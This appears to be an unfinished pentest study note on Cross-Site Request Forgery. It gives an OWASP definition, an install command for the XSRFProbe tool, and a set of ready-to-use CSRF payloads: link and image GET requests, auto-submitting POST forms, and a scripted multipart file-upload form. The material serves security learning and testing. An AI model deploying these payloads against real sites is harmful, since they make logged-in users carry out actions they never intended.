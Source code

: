 
>[!info]
>This note is still in development.

### Overview
---
Cross-Site Request Forgery (CSRF/XSRF) is an attack that forces an end user to execute unwanted actions on a web application in which they're currently authenticated. CSRF attacks specifically target state-changing requests, not theft of data, since the attacker has no way to see the response to the forged request. - OWASP

Reference(s):
- https://swisskyrepo.github.io/PayloadsAllTheThings/Server%20Side%20Request%20Forgery/
- https://portal.offsec.com/courses/web-200/books-and-videos/modal/modules/cross-origin-attacks/cross-site-request-forgery-csrf/cross-site-request-forgery-csrf
### Methodology
---
![[Pasted image 20231015202104.png]]

### Tools
---

- [XSRFProbe](https://github.com/0xInfection/XSRFProbe)
```python
# Installation
pip install xsrfprobe
# Usage
xsrfprobe --help
```


### Payloads
---
When you are logged in to a certain site, you typically have a session. The identifier of that session is stored in a cookie in your browser, and is sent with every request to that site. Even if some other site triggers a request, the cookie is sent along with the request and the request is handled as if the logged in user performed it.

#### HTML GET - Requiring User Interaction

```html
<a href="http://www.example.com/api/setusername?username=CSRFd">Click Me</a>
```

#### HTML GET - No User Interaction

```html
<img src="http://www.example.com/api/setusername?username=CSRFd">
```

#### HTML POST - Requiring User Interaction

```html
<form action="http://www.example.com/api/setusername" enctype="text/plain" method="POST">
 <input name="username" type="hidden" value="CSRFd" />
 <input type="submit" value="Submit Request" />
</form>
```

#### HTML POST - AutoSubmit - No User Interaction

```html
<form id="autosubmit" action="http://www.example.com/api/setusername" enctype="text/plain" method="POST">
 <input name="username" type="hidden" value="CSRFd" />
 <input type="submit" value="Submit Request" />
</form>

<script>
 document.getElementById("autosubmit").submit();
</script>
```

#### HTML POST - multipart/form-data with file upload - Requiring User Interaction

```html
<script>
function launch(){
    const dT = new DataTransfer();
    const file = new File( [ "CSRF-filecontent" ], "CSRF-filename" );
    dT.items.add( file );
    document.xss[0].files = dT.files;

    document.xss.submit()
}
</script>

<form style="display: none" name="xss" method="post" action="<target>" enctype="multipart/form-data">
<input id="file" type="file" name="file"/>
<input type="submit" name="" value="" size="0" />
</form>
<button value="button" onclick="launch()">Submit Request</button>
```
